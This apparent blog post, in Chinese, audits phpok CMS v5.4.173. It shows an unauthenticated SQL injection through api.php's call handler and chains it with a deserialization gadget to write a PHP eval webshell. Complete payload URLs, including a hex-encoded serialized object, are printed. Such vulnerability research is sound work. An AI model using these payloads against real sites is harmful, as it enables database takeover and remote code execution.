

今日继续cms代码审计，在cnvd上找了找前台的洞，于是选定了phpok cms
phpok cms v5.4.173 前台sql注入
在官网上直接下载代码，版本为v5.4.173，安装好之后进入后台提示是否更新，先不更新
phpokcms代码结构如下，可以看到关键代码都在framework文件夹下

phpokcms的路由规则比较简单，index.php admin.php api.php 分别对应 framework文件夹下的www admin api这三个文件夹
参数c的值再拼接上_control.php就是对应的文件 对应的类即{$c}_control
参数f的值再拼接上_f就是对应的方法
漏洞代码在/framework/api/call_control.php中的第27行开始，index_f函数
1 | public function index_f() |
$data 变量直接从get方法中传入，当为json类型时，先用stripslashes处理，然后调用format函数，跟进format函数(/framework/init.php 第1315行)，可以看到主要过滤如下
1 | $msg = str_replace(array("\\","'",'"',"<",">"),array("\","'",""","<",">"),$msg); |
可以见到，对双引号进行了过滤，程序继续运行，将处理后的数据赋值给了$tmpValue，接着判断条件
1 | if($call_all && $call_all[$key] && $call_all[$key]['is_api']) |
动态调试一下，可以知道需要传入的参数
然后调用了phpok函数(/framework/phpok_tpl_helper.php)，继续跟进
1 | function phpok($id='',$ext="") |
调用了phpok(/framework/phpok_call.php)，代码比较长，直接关注重点
1 | public function phpok($id,$rs="") |
传入的$rs参数就是我们可控的$tmpValue，且需要满足第120行的in_array($id,$list)，调试看一看值
可以看到，基本上这个类中以_开头的函数都可以通过传入type_id来调用，尝试调用_sql，跟进_sql函数(在第160行)
1 | private function _sql($rs,$cache_id='') |
先将引号转回去，再带入数据库查询，继续跟进，可以发现并无过滤，任意sql语句执行
payload
1 | api.php?c=call&f=index&data={"m_picplayer":{"type_id":"sql","sqlinfo":"select%20user();"}} |
可以看到成功执行了sql语句
phpok cms v5.4.173 前台getshell
前边分析了可以任意执行phpok_call.php中以_开头的函数，那么来找一找有没有可以反序列化的地方，在_fields函数中的第1159行调用了unserialize，代码如下
1 | private function _fields($rs) |
先调用了project_one(/framework/model/project.php)，会带入数据库查询，返回查询结果
1 | public function project_one($site_id,$id) |
然后进行反序列化操作，而前面已经分析过了，可以执行任意sql语句，所以可以先插入一条序列化的数据，然后通过查找在此处进行反序列化，接下来寻找反序列化的利用链
在/framework/engine/cache.php中发现了可以利用的点
1 | public function __destruct() |
跟进save
1 | public function save($id,$content='') |
虽然写入了exit，但是根据p牛的文章，可以使用php://filter来绕过，exp如下
1 |
|
可以通过任意sql语句执行来查询表结构，然后将反序列化数据带入到extra中，漏洞利用过程如下
先插入数据
1 | api.php?c=call&f=index&data={"m_picplayer":{"type_id":"sql","sqlinfo":"INSERT INTO `phpok5`.`qinggan_fields`(`id`, `ftype`, `title`, `identifier`, `field_type`, `note`, `form_type`, `form_style`, `format`, `content`, `ext`, `search_separator`, `form_class`) VALUES (999, 0x74, 0x74, 0x74,0x74, 0x74, 0x74, 0x74, 0x74, 0x74,0x4f3a353a226361636865223a333a7b733a393a22002a006b65795f6964223b733a343a226d6f7975223b733a31313a22002a006b65795f6c697374223b733a34353a2261616161614944772f63476877494756325957776f4a46395154314e5557323176655856644b54732f50673d3d223b733a393a22002a00666f6c646572223b733a36383a227068703a2f2f66696c7465722f77726974653d737472696e672e73747269705f746167737c636f6e766572742e6261736536342d6465636f64652f7265736f757263653d223b7d,0x74, 0x74)"}} |
然后再触发反序列化来写入shell
1 | api.php?c=call&f=index&data={"m_picplayer":{"site":1,"type_id":"fields","pid":999}} |
可以看到已经成功getshell
这个cms的审计还是很有意思的，了解路由机制对代码审计的帮助非常大